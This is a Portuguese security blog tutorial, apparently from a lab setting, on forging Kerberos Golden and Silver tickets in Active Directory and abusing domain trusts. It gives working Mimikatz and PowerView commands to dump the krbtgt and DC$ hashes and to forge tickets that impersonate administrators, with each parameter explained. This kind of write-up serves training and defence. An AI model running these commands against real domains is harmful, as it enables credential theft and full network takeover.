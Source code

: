 ```yaml
---
title: "Active Directory - Explorando Trusts - Tickets"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden.png)

# Tickets

Agora vamos abordar outro ponto a exploração. Vamos partir pra criação dos famosos Golden e Silver tickets. A foto de capa do post é análoga ao Willy Wonka, com um Golden Ticket da acessos ao personagem, do mesmo modo em um AD, um Golden Ticket nos da acesso que teoricamente não deveriamos ter, acesso à máquinas, arquivos e o mais importante *Domain Controllers*!

# Golden Ticket

Um Golden Ticket é um token de autenticação do Kerberos para o KRBTGT, que pode ser usado junto com o pass-the-hash para logar em qualquer conta, habilitando o atacante a se mover por toda a rede.

# Silver Ticket

Mas que diabos então é um Silver Ticket?

Silver tickets são tipos de Golden Tickets, isso mesmo, que são feito para se autenticar em serviços específicos. Esses tickets podem ser forjados a partir de senhas crackeadas de usuários, que são usadas para gerar os tickets falsos.

Os Silver Tickets são mais difíceis de detectar, tendo em vista que não há comunicação entre o serviço e o DC, todo log ficará no computador em que foi comprometido, dificultando e muito a detecção!

# Como criar Golden Tickets?

Primeiro o atacante deve ter tomado controle de um DC, pra sendo assim poder extrair o hash do KRBTGT

Uma vez dentro da máquina, realizamos a extração do hash do krbtgt

`Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject /name:krbtgt"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden1.png)

Após extraido podemos utilizar ele na nossa host mesmo para a criação do golden ticket

Aqui no caso eu criei um usuário que não existe, só pra comprovar que o ataque realmente funciona

`kerberos::golden /domain:xxx.local /sid:S-1-5-21-3965405831... /rc4:c6d349.... /user:newAdmin /id:500 /ptt`

```
/domain – o FQDN.

/sid – o SID do dominio.

/user – a conta que será impersonificada.

/id – o RID da conta que será impersonificada. Vou usar 500, pq esse é o default do administrator.

/ptt – vai injetar o ticket direto nessa seção

/rc4 – o hash do krbtgt
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden2.png)

Show... Esse foi um dos exemplos, outro que vou citar agora vai ser o foco desse post, que é que podemos explorar os trusts entre Domains com o Golden Ticket, whaat? Isso mesmo, acredita!

# Explorando Trust Domains

A ideia aqui é acessar servidores que não deveriamos ter acesso de modo algum, contudo entre os Forests sempre (ou quase sempre) há relação de confiança, os chamados Trusts, e vamos lá, se um forest confia no outro, ele vai dar acesso, se nós conseguimos nos passar por um forest, o outro vai aceitar a conexão... simples, não?

Para conseguir esses SIDs para podermos explorar a relação de confiança, iremos utilizar o `PowerView_dev.ps1` com os comandos listados:

```
FILHO - Get-DomainSID
PAI - Get-DomainSID -Domain funcorp.local
```

O que é pai e filho? Pai seria por exemplo o `abc.def.local`, o filho seria o `def.local`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden3.png)

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DOMINIO_FILHO /sid:SID DO DOMINIO FILHO /krbtgt:HASH DO KRBTGT /sids:SID DO DOMINIO PAI /ptt"'`

```
/user:Usuário

/domain:dominio que estou (filho) 

/sid:sid do FILHO 

/krbtgt:hash do KRBTGT

/sids:sid do PAI

/ptt
```

Executamos o ataque!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden4.png)

Pronto! Assim exploramos também o Trust Domain com o Golden Ticket, ou seja, se conseguimos o hash do KRBTGT, acabou!

Agora vamos partir pros ataques de Silver Ticket

# Como criar Silver Tickets?

A ideia é praticamente a mesma do golden ticket, só que ao invés de tickets para a seção como um todo, vamos criar somente para alguns serviços específicos, a base do comando é a mesma, então vou me furtar a discriminar como obter cada dado

Primeiro verificamos que não temos acesso ao servidor DC

`gwmi -Class win32_operatingsystem -ComputerName dc.local`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/silver.png)

Diferente do Golden Ticket, no silver ticket nós devemos ter o hash da máquina pra poder realizar o ataque, uma vez que vamos criar um TGS válido para aquela máquina em específico.

Então, após ter o controle da máquina, com o Mimikatz nós extraimos o hash do DC$

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/silver1.png)

Realizamos o Silver Ticket

`Invoke-Mimikatz -Command '"kerberos::golden /domain:us.funcorp.local /sid:S-1-5-21-3965405831-1015596948-2589850225 /target:ufc-dc1.us.funcorp.local /service:HOST /rc4:hash do DC$ /user:Administrator /ptt"'`

```
/domain:domínio que estou

/sid:sid do domínio (Get-DomainSid)

/target:a máquina alvo, no caso o DC

/service:o serviço que vou explorar

/rc4:o hash do DC$

/user:o usuário que vou impersonificar

/ptt:pra injetar de imediato o ticket
```

Aqui no caso eu quero explorar o `tasks` dele, pra poder agendar uma task e executar ela... mas isso pode ser revertido pra qualquer serviço que eu queira

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/silver2.png)

Pronto, esse foi o ataque de silver ticket. Terminamos por aqui a exploração dos tickets.
